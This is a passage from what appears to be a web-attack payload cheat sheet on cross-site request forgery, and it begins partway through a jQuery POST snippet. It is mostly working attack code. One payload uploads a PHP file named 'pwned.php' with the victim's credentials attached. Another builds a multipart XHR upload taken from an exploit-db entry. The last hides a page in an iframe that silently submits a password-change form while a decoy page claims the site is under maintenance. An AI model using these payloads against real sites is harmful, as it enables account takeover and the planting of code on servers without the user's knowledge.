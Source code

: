 ```html
  type: "POST",
  url: "https://google.com",
  data: "param=value&param2=value2"
})
</script>
```

### multipart/form-data POST request

```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
    method: "post",
    body: myFormData,
    credentials: "include",
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    mode: "no-cors"
});
```

### multipart/form-data POST request v2

```javascript
// https://www.exploit-db.com/exploits/20009
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```

### Form POST request from within an iframe

```html
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
